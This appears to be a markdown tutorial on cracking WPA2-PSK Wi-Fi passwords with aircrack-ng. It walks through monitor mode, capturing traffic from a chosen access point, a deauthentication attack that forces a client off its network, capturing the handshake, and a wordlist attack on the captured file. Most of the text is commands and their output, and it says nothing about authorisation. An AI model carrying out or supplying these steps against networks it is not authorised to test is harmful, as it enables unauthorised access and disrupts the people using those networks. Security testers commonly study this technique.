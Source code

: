 # Cracking WPA2-PSK Passwords Using Aircrack-Ng (Brute Force) 

1. Put Wi-Fi Adapter in Monitor Mode with Airmon-Ng - It allows us to see all of the wireless traffic that passes by us in the air. 
```bash
    [root] airmon-ng start wlan0
    PHY	Interface	Driver		Chipset

    phy0	wlp9s0f0	rt2800pci	Ralink corp. RT3290 Wireless 802.11n 1T/1R PCIe

		(mac80211 monitor mode vif enabled for [phy0]wlp9s0f0 on [phy0]wlp9s0f0mon)
		(mac80211 station mode vif disabled for [phy0]wlp9s0f0)

```

2. Note that airmon-ng has renamed your wlan0 adapter to wlp9s0f0mon.
```bash
    [root] iwconfig
    wlp9s0f0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
          
enp8s0    no wireless extensions.

lo        no wireless extensions.

```

3. Capture Traffic with Airodump-Ng
    - It grabs all the traffic that your wireless adapter can see and displays critical information about it, including the BSSID (the MAC address of the AP), power, number of beacon frames, number of data frames, channel, speed, encryption (if any), and finally, the ESSID (what most of us refer to as the SSID). 
    - Note all of the visible APs are listed in the upper part of the screen and the clients are listed in the lower part of the screen
```bash
    [root] airodump-ng wlp9s0f0mon
    
```

4. Focus Airodump-Ng on One AP on One Channel
    - Our next step is to focus our efforts on one AP, on one channel, and capture critical data from it. We need the BSSID and channel to do this. Let's open another terminal and type:
```bash
    [root] airodump-ng --bssid 08:86:30:74:22:76 -c 6 --write WPAcrack wlp9s0f0mon
```
- `08:86:30:74:22:76` is the `BSSID` of the AP
- `-c 6` is the channel the AP is operating on
- WPAcrack is the file you want to write to
- wlp9s0f0mon is the monitoring wireless adapter*

5. Aireplay-Ng Deauth
    - In order to capture the encrypted password, we need to have the client authenticate against the AP. 
    - If they're already authenticated, we can de-authenticate them (kick them off) and their system will automatically re-authenticate, whereby we can grab their encrypted password in the process. Let's open another terminal and type:
```bash
    [root] aireplay-ng --deauth 100 -a 08:86:30:74:22:76 -c 54:DC:1D:4C:39:96 wlp9s0f0mon
```    
- `100` is the number of de-authenticate frames you want to send
- `08:86:30:74:22:76` is the BSSID of the AP
- `54:DC:1D:4C:39:96` is the BSSID of the Client
- `wlp9s0f0mon` is the monitoring wireless adapter

6. Capture the Handshake
    - In the previous step, we bounced the user off their own AP, and now when they re-authenticate, airodump-ng will attempt to grab their password in the new 4-way handshake. 
    - Let's go back to our airodump-ng terminal and check to see whether or not we've been successful.
    - "WPA handshake." on top right conor.

7. Let's Aircrack-Ng That Password!    
    -  that we have the encrypted password in our file WPAcrack, we can run that file against aircrack-ng using a password file of our choice. 
    - Remember that this type of attack is only as good as your password file. 
```bash
    [root] aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de
```    

## References
- [Nullbyte - Cracking WPA2-PSK Passwords Using Aircrack-Ng](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)
- [AirCrack-Ng - Docs](https://www.aircrack-ng.org/documentation.html)
- [AirCrack-Ng - Tutorials](https://www.aircrack-ng.org/doku.php?id=tutorial)